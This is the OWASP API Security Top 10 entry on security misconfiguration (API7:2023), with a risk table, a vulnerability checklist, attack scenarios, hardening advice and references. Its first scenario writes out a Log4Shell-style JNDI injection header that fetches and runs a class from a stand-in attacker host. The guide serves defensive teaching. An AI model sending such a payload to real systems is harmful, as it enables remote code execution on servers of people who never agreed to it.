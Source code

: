 API7:2023 Security Misconfiguration
===================================

| Threat agents/Attack vectors | Security Weakness | Impacts |
| - | - | - |
| API Specific : Exploitability **Easy** | Prevalence **Widespread** : Detectability **Easy** | Technical **Severe** : Business Specific |
| Attackers will often attempt to find unpatched flaws, common endpoints, services running with insecure default configurations, or unprotected files and directories to gain unauthorized access or knowledge of the system. Most of this is public knowledge and exploits may be available. | Security misconfiguration can happen at any level of the API stack, from the network level to the application level. Automated tools are available to detect and exploit misconfigurations such as unnecessary services or legacy options. | Security misconfigurations not only expose sensitive user data, but also system details that can lead to full server compromise. |

## Is the API Vulnerable?

The API might be vulnerable if:

* Appropriate security hardening is missing across any part of the API stack,
  or if there are improperly configured permissions on cloud services
* The latest security patches are missing, or the systems are out of date
* Unnecessary features are enabled (e.g. HTTP verbs, logging features)
* There are discrepancies in the way incoming requests are processed by servers
  in the HTTP server chain
* Transport Layer Security (TLS) is missing
* Security or cache control directives are not sent to clients
* A Cross-Origin Resource Sharing (CORS) policy is missing or improperly set
* Error messages include stack traces, or expose other sensitive information

## Example Attack Scenarios

### Scenario #1

An API back-end server maintains an access log written by a popular third-party
open-source logging utility with support for placeholder expansion and JNDI
(Java Naming and Directory Interface) lookups, both enabled by default. For
each request, a new entry is written to the log file with the following
pattern: `<method> <api_version>/<path> - <status_code>`.

A bad actor issues the following API request, which gets written to the access
log file:

```
GET /health
X-Api-Version: ${jndi:ldap://attacker.com/Malicious.class}
```

Due to the insecure default configuration of the logging utility and a
permissive network outbound policy, in order to write the corresponding entry
to the access log, while expanding the value in the `X-Api-Version` request
header, the logging utility will pull and execute the `Malicious.class` object
from the attacker's remote controlled server.

### Scenario #2

A social network website offers a "Direct Message" feature that allows users to
keep private conversations. To retrieve new messages for a specific
conversation, the website issues the following API request (user interaction is
not required):

```
GET /dm/user_updates.json?conversation_id=1234567&cursor=GRlFp7LCUAAAA
```

Because the API response does not include the Cache-Control HTTP response
header, private conversations end-up cached by the web browser, allowing
malicious actors to retrieve them from the browser cache files in the
filesystem.

## How To Prevent

The API life cycle should include

* A repeatable hardening process leading to fast and easy deployment of a
  properly locked down environment
* A task to review and update configurations across the entire API stack. The
  review should include: orchestration files, API components, and cloud
  services (e.g. S3 bucket permissions)
* An automated process to continuously assess the effectiveness of the
  configuration and settings in all environments

Furthermore:

* Ensure that all API communications from the client to the API server and any
  downstream/upstream components happen over an encrypted communication channel
  (TLS), regardless of whether it is an internal or public-facing API.
* Be specific about which HTTP verbs each API can be accessed by: all other
  HTTP verbs should be disabled (e.g. HEAD).
* APIs expecting to be accessed from browser-based clients (e.g., WebApp
  front-end) should, at least:
  * implement a proper Cross-Origin Resource Sharing (CORS) policy
  * include applicable Security Headers
* Restrict incoming content types/data formats to those that meet the business/
  functional requirements.
* Implement a proper Cross-Origin Resource Sharing (CORS) policy on APIs
  expected to be accessed from browser-based clients (e.g. web app front-ends).
* Ensure all servers in the HTTP server chain (e.g. load balancers, reverse
  and forward proxies, and back-end servers) process incoming requests in a
  uniform manner to avoid desync issues.
* Where applicable, define and enforce all API response payload schemas,
  including error responses, to prevent exception traces and other valuable
  information from being sent back to attackers.

## References

### OWASP

* [OWASP Secure Headers Project][1]
* [Configuration and Deployment Management Testing - Web Security Testing
  Guide][2]
* [Testing for Error Handling - Web Security Testing Guide][3]
* [Testing for Cross Site Request Forgery - Web Security Testing Guide][4]

### External

* [CWE-2: Environmental Security Flaws][5]
* [CWE-16: Configuration][6]
* [CWE-209: Generation of Error Message Containing Sensitive Information][7]
* [CWE-319: Cleartext Transmission of Sensitive Information][8]
* [CWE-388: Error Handling][9]
* [CWE-444: Inconsistent Interpretation of HTTP Requests ('HTTP Request/Response
  Smuggling')][10]
* [CWE-942: Permissive Cross-domain Policy with Untrusted Domains][11]
* [Guide to General Server Security][12], NIST
* [Let's Encrypt: a free, automated, and open Certificate Authority][13]

[1]: https://owasp.org/www-project-secure-headers/
[2]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/02-Configuration_and_Deployment_Management_Testing/README
[3]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/08-Testing_for_Error_Handling/README
[4]: https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/06-Session_Management_Testing/05-Testing_for_Cross_Site_Request_Forgery
[5]: https://cwe.mitre.org/data/definitions/2.html
[6]: https://cwe.mitre.org/data/definitions/16.html
[7]: https://cwe.mitre.org/data/definitions/209.html
[8]: https://cwe.mitre.org/data/definitions/319.html
[9]: https://cwe.mitre.org/data/definitions/388.html
[10]: https://cwe.mitre.org/data/definitions/444.html
[11]: https://cwe.mitre.org/data/definitions/942.html
[12]: https://csrc.nist.gov/publications/detail/sp/800-123/final
[13]: https://letsencrypt.org/
